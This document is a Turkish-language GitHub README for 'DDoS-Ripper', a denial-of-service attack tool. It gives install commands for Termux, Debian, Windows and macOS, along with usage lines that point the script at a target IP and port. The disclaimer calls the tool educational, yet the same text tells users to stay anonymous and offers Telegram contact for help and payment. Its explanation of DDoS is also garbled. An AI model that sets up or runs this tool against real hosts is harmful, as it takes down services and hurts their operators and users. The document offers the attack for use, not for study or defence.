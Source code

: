 # DDoS-Ripper

# What is a DDoS Attack?
DDos Ripper, bir İnternet trafiği selinde hedefleri veya çevresindeki Distributable Denied-of-Service (DDOS) sunucu saldırısı.

DDoS saldırıları, saldırı trafiği kaynağı olarak birden çok güvenliği ihlal edilmiş bilgisayar sistemini kullanarak etkinlik sağlar. Arama motorları, bilgisayarları ve IoT cihazları gibi diğer ağ kaynaklarını içerebilir.
Daha yüksek bir seviyeden, DDOS saldırısı, bir otoyolda takılıp, normal trafiğin hedefine ulaşmasını engelleyen beklenmedik bir trafik sıkışıklığı gibidir.

## NOT (Lütfen python 3'ü yüklediğinizden emin olun)

![dddd](https://user-images.githubusercontent.com/49250151/96265488-57e53d00-0f7a-11eb-8936-ce2e9a2c42cd.PNG)


## Termux için
DRipper'ı kullanmak için Termux'ta aşağıdaki komutları yazın:

`pkg install git -y`

`pkg install python -y`

`pkg install python3 -y`

`git clone https://github.com/palahsu/DDoS-Ripper.git`

`cd DDoS-Ripper`
`$ ls`

`$ python3 DRipper.py` 

## USGAE
`python3 DRipper.py -s [ip Address] -t 135`

`example: python3 DRipper.py -s 0.00.00.00 -t 135`

## Debian tabanlı GNU/Linux için
Uygulamayı kullanmak için GNU/Linux terminaline aşağıdaki komutları yazın.

`sudo apt install git`
`git clone https://github.com/palahsu/DDoS-Ripper.git`
`cd DDoS-Ripper`
`$ ls`
`$ python3 DRipper.py` OR `python2 DRipper.py`

## Windows için

`git clone https://github.com/palahsu/DDoS-Ripper`

`cd DDoS-Ripper`
` ls`

`python3 DRipper.py` OR `python DRipper.py`

`python3 DRipper.py -s [ip Address] -t 135`

`example: python3 DRipper.py -s 0.00.00.00 -t 135`

## MacOS için

Brew ve Install bağımlılıklarını kurun (python 3)

# Not:
Herhangi bir sorun bulursanız, lütfen github sorununa ve Telegram Grubumuza yazın. İntikam için kullanmayın! Anonimliğinizden emin olun!
Sadece deneme amaçlı yapılmıştır.
Bu programın neden olduğu herhangi bir kötüye kullanım veya hasardan sorumlu değiliz. Sadece Eğitim Amaçlı.
Teşekkürler.
 
## Gereksinimler ▶

●🖥Linux İşletim Sistemi( Kali 🐉 Ubuntu )

●📱Termux >

●🖥Pencereler

●🖥MAC

# @palahsu tarafından değiştirildi

Her türlü yardım, destek, ödeme, öneri ve istek için bana Telegram'dan sorun:

<a href="https://t.me/CyberClans"><img src="https://img.shields.io/badge/Telegram-Group%20Telegram%20Join-blue.svg?logo=telegram"></a>

veya Facebook üzerinden ulaş <a href="https://www.facebook.com/aduri.knox01/"><img src="https://img.shields.io/badge/Facebook-Follow%20on%20Facebook-blue.svg?logo=facebook"></a>

## Bizi takip et:
<p align="left">
<a href="https://github.com/palahsu"><img src="https://img.shields.io/badge/GitHub-Follow%20on%20GitHub-inactive.svg?logo=github"></a>
</p><p align="left">
<a href="https://www.facebook.com/aduri.knox01/"><img src="https://img.shields.io/badge/Facebook-Follow%20on%20Facebook-blue.svg?logo=facebook"></a>
</p><p align="left">
<a href="https://t.me/AD0000000"><img src="https://img.shields.io/badge/Telegram-Contact%20Telegram%20Profile-blue.svg?logo=telegram"></a>
</p><p align="left"> 
 
